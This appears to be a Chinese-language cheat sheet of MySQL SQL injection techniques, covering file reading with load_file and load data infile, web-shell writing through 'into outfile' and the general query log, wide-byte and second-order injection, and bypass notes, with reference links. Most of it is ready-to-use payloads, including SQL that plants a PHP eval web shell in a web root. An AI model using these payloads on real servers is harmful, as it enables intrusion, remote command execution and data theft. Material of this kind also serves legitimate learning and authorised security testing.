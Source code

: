 # 文件操作：
## 读文件
load_file(file_name)  读取文件并返回文件内容作为一个字符串
条件:
a.要有FILE权限
b.文件要小于max_allowed_packet
(select count(*) from mysql.user)>0 为真说明有权限
注意windows下用\\分割路径

文件导入到数据库:
有数据库权限时可以用来读文件
load data infile '/tmp/t0.txt' ignore into table t0 character set gbk fields terminated by '\t'
lines terminated by '\n'
把t0.txt导入到t0表中,fields terminated by 是每一项数据之间的分隔符,lines terminated by 是行的结尾符
错误代码2:文件不存在
错误代码13:没权限

常用的路径:
http://www.cnblogs.com/lcamry/p/5729087.html
 

## 写文件
为了绕过引号，可以把内容hexed
1. select '<?php phpinfo();?>' into outfile "/var/www/html/shell.php"
2. select version() into outfile "/var/www/html/shell.php" LINES TERMINATED BY 16进制代码
第二种是利用的文件结尾符
 
<br />
<a href="http://blog.cora-lab.org/287.html">利用日志写shell</a>:适用于outfile被过滤，或者禁止写入文件，但要root权限
客户端下:
```
show variables like '%general%';  #查看配置

set global general_log = on;  #开启general log模式

set global general_log_file = '/var/www/html/1.php';   #设置日志目录为shell地址

select '<?php eval($_POST[cmd]);?>'  #写入shell
``` 
# 宽字节注入
[宽字节注入笔记][4]
宽字节存在常见有两个情况，addslashes()和mysql_real_escape_string()

#二次排序注入（储存注入）
常见的情况是插入的时候转义了(\')，不能注入，但是可以把注入语句(\')储存到数据库('),这样如果某个地方再调用了这个值且没检查，来拼接到SQL语句里，就可能产生注入。就是多一步储存而已，没啥特殊的。


# 绕过
绕过得看具体情形，太多太多bypass了。


  [1]: https://www.waitalone.cn/mysql-error-based-injection.html
  [2]: http://www.cnblogs.com/xdans/p/5412468.html
  [3]: https://xianzhi.aliyun.com/forum/read/762.html
  [4]: http://03i0.com/index.php/archives/22/
  [7]: http://www.cnblogs.com/lcamry/p/5763154.html
  [8]: http://www.websec.ca/kb/sql_injection
  [9]: http://www.cnbraid.com/page/7/